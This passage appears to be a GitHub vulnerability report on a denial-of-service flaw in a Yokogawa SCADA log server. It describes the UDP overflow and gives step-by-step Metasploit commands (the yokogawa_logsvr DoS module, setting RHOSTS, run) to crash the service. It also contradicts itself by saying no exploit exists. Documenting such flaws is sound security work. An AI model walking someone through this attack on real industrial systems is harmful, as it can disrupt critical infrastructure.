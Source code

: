 
## Impact

Sending two consecutive packets is enough to trigger the overflow and cause DoS. However, if legit packets are processed by the server, there will be no overflow between the two malformed packets. Unfortunately there is no reliable way due to the use of UDP and lack of response.
<br>
The attack may be initiated remotely. No form of authentication is needed for a successful exploitation. Technical details of the vulnerability are known, but there is no available exploit.
<br> <br>
If the attack is successful, it may be recommended to replace the affected object with an alternative product.

***

# Exploitation of Vulnerability
As we mentioned before, with this exploit; attacker can cause a denial of service of the system.

In order to exploit the vulnerability we need to download [Metasploit](https://github.com/rapid7/metasploit-framework)<br>

After downloading metasploit we can run it by typing;

```
# msfconsole
```

We can see the ModBus Frameworks' modules by typing;

```
# show all
```

```
# use /auxiliary/dos/scada/yokogawa_logsvr
```

```
# show options
```
<p align="center">
  <img src="https://github.com/ics-scada/Reports/blob/main/yokogawa_logsvr/img2/show_options.png">
</p>

We have checked what parameters our exploit needs to run. This exploit needs;<br>

`RHOST` = remote host ip address,<br>
```
# set RHOSTS <ip>
```

After giving the parameters which are wanted we are ready to run it.

```
# run
```
